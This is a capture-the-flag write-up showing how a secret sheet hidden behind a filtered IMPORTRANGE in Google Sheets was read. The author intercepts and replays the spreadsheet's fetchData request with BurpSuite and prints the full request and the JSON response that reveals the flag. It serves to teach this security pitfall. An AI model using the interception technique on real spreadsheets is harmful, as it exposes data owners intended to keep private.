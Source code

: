 # digits-of-pi-2 (70 solves, 474 points)

## Description:
This [spreadsheet](https://docs.google.com/spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/edit) is Secure™

## Solution:
In this challenge instead of the secret sheet being on the same Google Sheet, it is imported using the IMPORTRANGE function. 

![alt text](formula.png "Formula")

However, the entire sheet is imported and then filtered on the google Sheet we have access to. So we could intercept the request to get the entire secret sheet. I will use BurpSuite to do this.

Looking through the requests in the HTTP reuqest history I saw this one which looked suspicious(the externalDataBatchRequest confirmed this)

```
POST /spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/externaldata/fetchData?id=1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M&sid=166fbbcbfe3b9199&vc=0&c=0&w=0&flr=0&smv=97&includes_info_params=true HTTP/2

Host: docs.google.com

...

externalDataBatchRequest=%7B%221%22%3A%5B%7B%221%22%3A%22customFunctionMap%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22protectedRangeInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22dbExecutionInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22%7B1%3D4%2C7%3D%7B1%3D44%231MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A%2C2%3D3%23A%3AZ%7D%7D%22%2C%222%22%3A%22%22%7D%5D%7D&esid=166fbbcbfe3b9199
```
Sending this the repeater tab and sending it, I got the following response with the flag:
```
HTTP/2 200 OK

Content-Type: application/json; charset=utf-8

X-Robots-Tag: noindex, nofollow, nosnippet

X-Content-Type-Options: nosniff

Cache-Control: no-cache, no-store, max-age=0, must-revalidate

Pragma: no-cache

Expires: Mon, 01 Jan 1990 00:00:00 GMT

Date: Sun, 20 Jun 2021 03:24:00 GMT

X-Frame-Options: SAMEORIGIN

Content-Security-Policy: frame-ancestors 'self'

X-Xss-Protection: 1; mode=block

Server: GSE

Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-T051=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"



[null,[[null,"customFunctionMap",null,[null,null,null,null,""]],[null,"protectedRangeInfo","[]\n",[null,0.0,null,null,"d751713988987e9331980363e24189ce"]],[null,"dbExecutionInfo",null,[null,0.0,null,null,"e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"]],[null,"{1\u003d4,7\u003d{1\u003d44#1MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A,2\u003d3#A:Z}}","[null,1000,26,[[null,0,[[null,0,[null,[null,0]\n,[null,3,null,0]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999440]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"Source:\"]\n]\n]\n]\n]\n,[null,1,[[null,0,[null,[null,0]\n,[null,3,null,1]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999333]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n]\n]\n]\n,[null,2,[[null,0,[null,[null,0]\n,[null,3,null,2]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000306]\n]\n]\n]\n]\n,[null,3,[[null,0,[null,[null,0]\n,[null,3,null,3]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999964]\n]\n]\n]\n]\n,[null,4,[[null,0,[null,[null,0]\n,[null,3,null,4]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1001093]\n]\n]\n]\n]\n,[null,5,[[null,0,[null,[null,0]\n,[null,3,null,5]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000466]\n]\n]\n]\n]\n,[null,6,[[null,0,[null,[null,0]\n,[null,3,null,6]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999337]\n]\n]\n]\n]\n,[null,7,[[null,0,[null,[null,0]\n,[null,3,null,7]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000207]\n]\n]\n]\n]\n,[null,8,[[null,0,[null,[null,0]\n,[null,3,null,8]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999814]\n]\n]\n]\n]\n,[null,9,[[null,0,[null,[null,0]\n,[null,3,null,9]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000040]\n]\n]\n]\n]\n,[null,36,[[null,14,[null,[null,0]\n,[null,2,\"m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s\"]\n]\n]\n]\n]\n]\n]\n",[null,1.624158716438E9,null,null,"�/�~�F��6\f�\f����",1.624156916287E9,null,null,[]]]]]
```
## Flag:
`
flag{m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s}`

